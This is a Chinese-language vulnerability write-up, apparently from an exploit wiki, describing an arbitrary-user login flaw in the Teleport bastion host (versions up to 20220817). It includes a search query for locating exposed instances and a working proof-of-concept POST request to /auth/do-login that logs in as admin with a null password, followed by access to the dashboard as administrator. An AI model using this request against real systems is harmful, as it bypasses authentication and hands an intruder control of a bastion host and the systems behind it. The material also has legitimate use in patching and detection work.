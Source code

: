# Teleport堡垒机 do-login 任意用户登录漏洞

## 漏洞描述

Teleport堡垒机存在任意用户登录漏洞，攻击者通过构造特殊的请求包可以登录堡垒机获取其他系统权限

## 漏洞影响

<a-checkbox checked>Teleport Version <= 20220817</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TELEPORT堡垒机"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1660720653270-fcd22c8e-0df1-42ea-aa02-2c94e0770e76-20220823130937164.png)

验证POC， captcha参数为验证码

```php
POST /auth/do-login

args={"type":2,"username":"admin","password":null,"captcha":"ykex","oath":"","remember":false}
```

![img](/assets/PeiQi-Wiki/img/1661087828041-1bf5d666-f5fd-4d69-9099-465b3dd492f2-20220823130936374.png)

code 返回 0 即为成功，再访问 /dashboard 获取管理员权限

![img](/assets/PeiQi-Wiki/img/1661087872154-ba6ae117-5a99-43f4-919f-1b22f403ab37-20220823130936385.png)